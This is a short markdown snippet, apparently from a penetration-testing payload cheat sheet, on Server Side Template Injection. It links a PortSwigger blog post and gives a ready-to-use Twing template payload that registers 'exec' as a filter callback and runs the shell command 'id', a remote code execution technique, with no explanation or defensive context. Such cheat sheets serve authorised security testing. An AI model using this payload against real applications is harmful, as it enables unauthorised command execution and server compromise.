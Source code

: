 ## Server Side Template Injection

Reference
```
https://portswigger.net/blog/server-side-template-injection
```

Twing RCE Payload
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}  
```
